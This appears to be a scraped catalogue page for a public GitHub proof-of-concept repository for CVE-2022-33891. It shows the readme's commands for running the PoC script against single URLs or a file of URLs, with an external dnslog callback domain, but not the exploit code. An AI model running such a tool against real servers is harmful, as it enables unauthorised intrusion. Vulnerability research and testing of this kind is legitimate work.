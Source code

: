 # cve-2022-33891

cve-2022-33891-poc

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/W01fh4cker](https://github.com/W01fh4cker) |
| Url      | [https://github.com/W01fh4cker/cve-2022-33891](https://github.com/W01fh4cker/cve-2022-33891)                                               |
| Stars    | 48                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2022-33891

</details>

## Readme

# cve-2022-33891
Usage:
```python
pip3 install requests

# If you do not use the -d parameter, the dnslog domain name will be automatically applied for you.
# 如果你不使用-d参数，则会自动为您申请dnslog域名。

python3 cve_2022_33891_poc.py -u http://127.0.0.1
python3 cve_2022_33891_poc.py -f url.txt

python3 cve_2022_33891_poc.py -u http://127.0.0.1 -d ngpc6c.dnslog.cn
python3 cve_2022_33891_poc.py -f url.txt -d ngpc6c.dnslog.cn

```
Example:  
![](https://s2.loli.net/2022/07/20/LboBqMyTXEpVAkF.png)



## Get the content

```
git clone https://github.com/W01fh4cker/cve-2022-33891
cd cve-2022-33891
```

{% embed url="https://github.com/W01fh4cker/cve-2022-33891" %}

<figure><img src="https://avatars.githubusercontent.com/u/101872898?v=4" alt=""><figcaption><p>W01fh4cker</p></figcaption></figure>
